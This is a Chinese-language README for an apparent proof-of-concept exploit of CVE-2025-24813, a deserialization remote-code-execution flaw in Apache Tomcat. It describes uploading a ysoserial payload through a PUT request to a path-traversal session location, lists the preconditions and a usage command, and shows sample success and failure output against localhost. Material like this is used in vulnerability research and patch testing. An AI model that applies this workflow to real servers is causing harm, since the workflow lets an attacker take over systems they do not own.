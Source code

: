 README.md
# CVE-2025-24813 Apache Tomcat RCE 漏洞验证代码
本项目提供了一个概念验证（PoC），用于利用 CVE-2025-24813，这是一个 Apache Tomcat 中的远程代码执行（RCE）漏洞。该漏洞允许攻击者上传恶意序列化负载到服务器，当满足特定条件时，通过反序列化机制实现任意代码执行。
---

## 描述

**CVE-2025-24813** 是一个理论上的 Apache Tomcat 远程代码执行（RCE）漏洞，它利用了服务器对上传会话文件和反序列化机制的不当处理。通过将精心制作的负载上传到可写目录（例如 `/uploads/../sessions/`），攻击者可以在服务器处理上传的会话文件并触发负载反序列化时，执行任意命令。

---

## 成功利用的前提条件

为了使此 PoC 成功利用漏洞，必须满足以下条件：

1. **Apache Tomcat 版本**: 目标服务器必须运行易受攻击的 Apache Tomcat 版本。
2. **可写目录**: 服务器必须允许 PUT 请求。
3. **反序列化触发**: 服务器必须处理上传的会话文件（例如，通过 GET 请求访问 `/index.jsp`）并触发负载的反序列化。
4. **Java 环境**: 攻击者的机器上必须安装 Java，以便使用 `ysoserial` 或编译基于 Java 的负载。
5. **ysoserial (可选)**: 如果使用 `ysoserial` 类型的负载，本地必须有 `ysoserial.jar` 文件。

---

~~~
python CVE-2025-24813.py <目标URL> [选项]
~~~

## 输出
* 成功利用:
[+] 服务器可通过PUT写入: http://localhost:8081/check.txt 
[*] 会话ID: absholi7ly 
[+] 负载生成成功: payload.ser 
[+] 负载上传状态为409(冲突): http://localhost:8081/uploads/../sessions/absholi7ly.session 
[+] 利用成功！反序列化后服务器返回500。 
[+] 目标 http://localhost:8081 易受 CVE-2025-24813 攻击！ 
[+] 临时文件已删除: payload.ser
* 利用失败:
[+] 服务器可通过PUT写入: http://localhost:8081/check.txt 
[*] 会话ID: absholi7ly 
[+] 负载生成成功: payload.ser 
[-] 负载上传失败: http://localhost:8081/uploads/../sessions/absholi7ly.session (HTTP 403) 
[-] 目标 http://localhost:8081 不易受攻击或利用失败。 
[+] 临时文件已删除: payload.ser